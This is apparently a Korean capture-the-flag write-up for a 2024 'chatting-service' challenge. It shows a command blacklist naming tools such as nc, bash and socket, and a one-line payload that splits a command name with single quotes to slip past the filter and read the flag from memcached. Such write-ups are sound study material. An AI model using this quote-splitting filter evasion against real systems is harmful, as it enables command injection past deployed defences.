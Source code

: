 ```python
    app.run(host='0.0.0.0',debug=True,port=5000)
```     
명령은 `admin://`로 시작해야하고 `["memccat", "memcstat", "memcdump", "nc", "bash", "/bin", "/sh", "export", "env", "socket", "connect", "open", "set", "membash", "delete", "flush_all", "stats", "which" , "python", "perl", "rm", "mkdir", ".", "/"]` 문자들을 사용할 수 없도록 필터링 해놓았다.    
       
하지만, '(quote)를 사용하여 필터링을 우회할 수 있다.        

## Exploit Code     
       
`admin://'m''e''m''c''c''a''t' --servers=localhost get flag`    
        
위 명령을 사용해서 플래그를 획득할 수 있다.    

<img src="/assets/images/ctf/2024/codegate/chatting-service/flag.jpg" width="700px">                 
          